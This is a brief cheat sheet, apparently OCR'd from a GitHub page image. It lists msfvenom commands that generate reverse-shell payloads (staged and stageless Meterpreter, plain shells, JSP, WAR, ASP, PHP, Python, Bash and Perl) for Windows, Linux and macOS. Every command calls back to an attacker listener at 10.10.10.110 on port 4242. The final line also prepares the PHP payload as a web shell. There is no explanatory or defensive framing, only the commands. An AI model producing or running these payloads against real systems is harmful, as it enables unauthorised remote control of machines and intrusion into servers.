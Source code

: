 Meterpreter Shell
Windows Staged reverse TCP

$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.110 LPORT=4242 -f exe > reverse.exe

Windows Stageless reverse TCP

$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.110 LPORT=4242 -f exe > reverse.exe

Linux Staged reverse TCP

$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.10.110 LPORT=4242 -f elf >reverse.elf

Linux Stageless reverse TCP

$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.110 LPORT=4242 -f elf >reverse.elf

Other platforms

$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f elf > shell.elf
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f exe > shell.exe
$ msfvenom -p osx/x86/shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f macho > shell.macho
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f asp > shell.asp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f raw > shell.jsp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f war > shell.war
$ msfvenom -p cmd/unix/reverse_python LHOST="10.10.10.110" LPORT=4242 -f raw > shell.py
$ msfvenom -p cmd/unix/reverse_bash LHOST="10.10.10.110" LPORT=4242 -f raw > shell.sh
$ msfvenom -p cmd/unix/reverse_perl LHOST="10.10.10.110" LPORT=4242 -f raw > shell.pl
$ msfvenom -p php/meterpreter_reverse_tcp LHOST="10.10.10.110" LPORT=4242 -f raw > shell.php; cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
